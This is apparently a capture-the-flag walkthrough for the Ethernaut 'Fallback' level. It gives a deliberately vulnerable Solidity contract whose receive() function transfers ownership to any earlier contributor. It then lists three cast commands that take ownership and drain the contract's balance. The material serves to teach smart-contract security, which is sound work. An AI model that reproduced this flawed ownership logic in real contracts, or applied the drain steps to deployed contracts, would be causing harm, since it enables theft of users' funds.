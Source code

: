 ## Fallback Level Outline

**Difficulty : 1/10**

You will beat this level if:
1. you claim ownership of the contract
2. you reduce its balance to 0

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008)

## Solution

To become the contract owner, we first need to contribute some ETH and then call the fallback function.

### Walkthrough
1. contributing some eth by calling the "contribute()" function
```console
cast send $LEVEL_ADDRESS "contribute()" --value 0.0001ether --private-key=$PRIVATE_KEY
```

2. trigger the fallback function **receive()** by sending an eth transaction with an empty data field
```console
cast send $LEVEL_ADDRESS --value 0.0001ether --private-key $PRIVATE_KEY
```

3. draining the contract
```console
cast send $LEVEL_ADDRESS "withdraw()" --private-key $PRIVATE_KEY
```
## Further Reading

```
    Ether is sent to contract?
                |
        is msg.data empty?
                / \
               /   \
             yes    no  
             /       \    
        receive()    fallback()
         exist?                      
        /     \
       yes     no          
      /         \
  receive()     fallback()
```

